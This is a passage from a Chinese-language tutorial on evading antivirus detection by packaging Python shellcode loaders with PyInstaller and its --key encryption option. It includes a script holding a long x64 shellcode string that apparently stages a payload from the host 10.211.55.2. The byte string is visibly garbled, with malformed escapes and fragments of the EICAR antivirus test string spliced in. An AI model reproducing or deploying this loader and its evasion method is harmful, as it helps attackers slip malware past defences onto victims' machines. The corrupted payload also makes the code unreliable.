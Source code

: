 **5. 正确使用--key参数进行加密免杀（测试时间：2021.06.17）**

总体上来讲，python打包的exe都是可以破解的，就算使用cython来写，依旧是可以破解的，只是时间问题而已，但是在这还是提出一些略微有效的方法（自欺欺人）。  
​

**5.1 不使用--key参数**

将所有的代码进行封装为一个函数，在一个新的文件中引用，其中py_shellcode_fuzz.py里的文件内容不变，只不过将其封装为一个函数，test.py来调用这个函数  
​

![图形用户界面 描述已自动生成](media/be947260477fdd769b43cc1e00e16992.png)


py_shellcode_fuzz.py：

*\# -\*- encoding: utf-8 -\*-*

*\# Time : 2021/06/17 17:12:27*

*\# Author: crow*

**import** ctypes**,**base64

**def** shell**():**

shellcode **=** b""

shellcode **+=**
b"\\xfc\\x48\\x83\\xe4\\xf0\\xe8\\xc8\\x00\\x00\\x00\\x41\\x51\\x41\\x50\\x52\\x51\\x56\\x48\\x31\\xd2\\x65\\x48\\x8b\\x52\\x60\\x48\\x8b\\x52\\x18\\x48\\x8b\\x52\\x20\\x48\\x8b\\x72\\x50\\x48\\x0f\\xb7\\x4a\\x4a\\x4d\\x31\\xc9\\x48\\x31\\xc0\\xac\\x3c\\x61\\x7c\\x02\\x2c\\x20\\x41\\xc1\\xc9\\x0d\\x41\\x01\\xc1\\xe2\\xed\\x52\\x41\\x51\\x48\\x8b\\x52\\x20\\x8b\\x42\\x3c\\x48\\x01\\xd0\\x66\\x81\\x78\\x18\\x0b\\x02\\x75\\x72\\x8b\\x80\\x88\\x00\\x00\\x00\\x48\\x85\\xc0\\x74\\x67\\x48\\x01\\xd0\\x50\\x8b\\x48\\x18\\x44\\x8b\\x40\\x20\\x49\\x01\\xd0\\xe3\\x56\\x48\\xff\\xc9\\x41\\x8b\\x34\\x88\\x48\\x01\\xd6\\x4d\\x31\\xc9\\x48\\x31\\xc0\\xac\\x41\\xc1\\xc9\\x0d\\x41\\x01\\xc1\\x38\\xe0\\x75\\xf1\\x4c\\x03\\x4c\\x24\\x08\\x45\\x39\\xd1\\x75\\xd8\\x58\\x44\\x8b\\x40\\x24\\x49\\x01\\xd0\\x66\\x41\\x8b\\x0c\\d2\\x4d\\x31\\xc0\\x4d\\x31\\xc9\\x41\\x50\\x41\\x50\\x41\\xba\\x3a\\x56\\x79\\xa7\\xff\\xd5\\xeb\\x73\\x5a\\x48\\x89\\xc1\\x41\\xb8\\x21\\x03\\x00\\x00\\x4d\\x31\\xc9\\x41\\x51\\x41\\x51\\x6a\\x03\\x41\\x51\\x41\\xba\\x57\\x89\\x9f\\xc6\\xff\\xd5\\xeb\\x59\\x5b\\x48\\x89\\xc1\\x48\\x31\\xd2\\x49\\x89\\xd8\\x4d\\x31\\xc9\\\\x29\\x37\\x43\\x43\\x29\\x37\\x7d\\x24\\x45\\x49\\x439\\x56\\x49\\x52\\x55\\x53\\x2d\\x54\\x45\\x53\\x54\\x2d\\x46\\x49\\x4c\\x45\\x21\\x24\\x48\\x2b\\x48\\x2a\\x00\\x35\\x4f\\x21\\x50\\x25\\x40\\x41\\x50\\x5b\\x34\\x5c\\x50\\x5a\\x58\\x35\\x34\\x28\\x50\\x5e\\x29\\x37\\x43\\x43\\x00\\x41\\xbe\\xf0\\xb5\\xa2\\x56\\xff\\xd5\\x48\\x31\\xc9\\xba\\x00\\x00\\x40\\x00\\x41\\xb8\\x00\\x10\\x00\\x00\\x41\\xb9\\x40\\x00\\x00\\x00\\x41\\xba\\x58\\xa4\\x53\\xe5\\xff\\xd5\\x48\\x93\\x53\\x53\\x48\\x89\\xe7\\x48\\x89\\xf1\\x48\\x89\\xda\\x41\\xb8\\x00\\x20\\x00\\x00\\x49\\x89\\xf9\\x41\\xba\\x12\\x96\\x89\\xe2\\xff\\xd5\\x48\\x83\\xc4\\x20\\x85\\xc0\\x74\\xb6\\x66\\x8b\\x07\\x48\\x01\\xc3\\x85\\xc0\\x75\\xd7\\x58\\x58\\x58\\x48\\x05\\x00\\x00\\x00\\x00\\x50\\xc3\\xe8\\x9f\\xfd\\xff\\xff\\x31\\x30\\x2e\\x32\\x31\\x31\\x2e\\x35\\x35\\x2e\\x32\\x00\\x00\\x00\\x00\\x00"

